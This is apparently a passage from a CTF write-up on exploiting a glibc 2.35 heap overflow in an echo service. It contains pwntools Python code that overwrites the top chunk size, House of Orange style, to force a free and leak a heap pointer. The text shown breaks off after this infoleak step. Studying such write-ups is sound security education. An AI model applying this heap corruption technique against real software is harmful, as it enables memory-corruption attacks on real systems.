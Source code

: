 ```
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 11.3.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

We also make a helper function to help us to allocate easily:

```python
def send_echo(content, sz, end=True) :
    sock.recvuntil("PKT_RES")
    sock.send(p32(sz))
    if len(content) != 0:
      payload = p32(0) + p64(1) + content
    else:
      payload = p32(0) + b'\x01\0\0\0\0\0'
    sock.sendline(payload)
```

## Exploitation
### Step 1 - Infoleak
Our first goal is to get a leak. However, this isn't really possible at the moment, because our functions only allow us to interact with the heap, and there is practically no data at all on the heap. We can allocate new chunks on the heap, and we can overflow past their ends, but without using `free()`, there isn't a way to get any kind of pointer onto the heap for us to leak.

But this isn't a new predicament; there's actually a situation in which we can cause `__int_free` to be called! This is used in the first step of the classic House of Orange, and was shown in the challenge from SECCON Beginners CTF 2021, [freeless](https://web.archive.org/web/20210613164247/https://dystopia.sg/seccon-beginners-2021-freeless/). 

This trick works when we can overwrite the size of the top chunk. In the [GLIBC source code](https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L2665), we see that the top chunk will be freed (and put in the unsorted bin) when an allocation is made that is too big for the top chunk to service, but smaller than `mp_.mmap_threshold`. This will cause the heap to be expanded using `sbrk`, and the remainder of the top chunk to be freed.

We get this to happen by overwriting the size of the top chunk to a smaller size (while keeping the last three nibbles the same to pass the page alignment check). This causes the top chunk to be freed after the next allocation!

We implement this using our helper function:
```python
send_echo(b"", 0x10)
send_echo(b"a"*8 + p64(0xd31), 0x10) # overflow the top chunk size
send_echo(b"b"*0xf00, 0x1000) # allocate a big chunk to cause the free
send_echo(b"", 0x8) # get the leak!
conn.recvuntil(b":[")
leak = u64(conn.recv(6) + b"\0\0")
info("heap leak: " + hex(leak))
```
This allocation triggers some heap mechanisms, adding a chunk to the unsorted bin. This happens to place a heap pointer in the third QWORD of our chunk, which is the part that we can leak!
